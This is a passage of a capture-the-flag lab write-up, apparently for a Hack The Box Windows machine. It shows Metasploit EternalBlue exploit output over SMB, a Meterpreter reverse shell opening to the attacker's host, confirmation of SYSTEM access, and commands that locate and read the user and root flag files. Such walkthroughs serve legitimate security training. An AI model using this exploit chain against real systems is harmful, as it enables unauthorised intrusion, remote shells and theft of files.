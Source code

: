 ```zsh
[+] 10.129.246.69:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.129.246.69:445 - Sending final SMBv2 buffers.
[*] 10.129.246.69:445 - Sending last fragment of exploit packet!
[*] 10.129.246.69:445 - Receiving response from exploit packet
[+] 10.129.246.69:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.129.246.69:445 - Sending egg to corrupted connection.
[*] 10.129.246.69:445 - Triggering free of corrupted buffer.
[*] Sending stage (203846 bytes) to 10.129.246.69
[*] Meterpreter session 1 opened (10.10.14.10:4444 -> 10.129.246.69:49168) at 2025-10-18 19:42:48 +1000
[+] 10.129.246.69:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.129.246.69:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.129.246.69:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```

Another great success. We have successfully exploited the target and obtained a meterpreter reverse shell.

We can now confirm which user the server is running as.

```zsh
meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM
```

We have compromised the SYSTEM account!


## Post Exploitation

With our elevated privileges, we are in a good position to utilise the built in meterpreter commands to search for the `user.txt` and `root.txt` flags.

```zsh
meterpreter > search -f "user.txt" & search -f "root.txt"

Found 2 results...
==================

Path                                     Size (bytes)  Modified (UTC)
----                                     ------------  --------------
c:\Users\Administrator\Desktop\root.txt  34            2025-10-18 18:51:46 +1000
c:\Users\haris\Desktop\user.txt          34            2025-10-18 18:51:46 +1000
```

Now that we have found the `user.txt` and `root.txt` flag files, we can go ahead and attempt to read the contents of them.

First we can obtain the `user.txt` flag.

```zsh
meterpreter > cat "c:\Users\haris\Desktop\user.txt"

ce5f8***************************
```

Next, we can obtain the `root.txt` flag.

```zsh
meterpreter > cat "c:\Users\Administrator\Desktop\root.txt"

41db3***************************
```





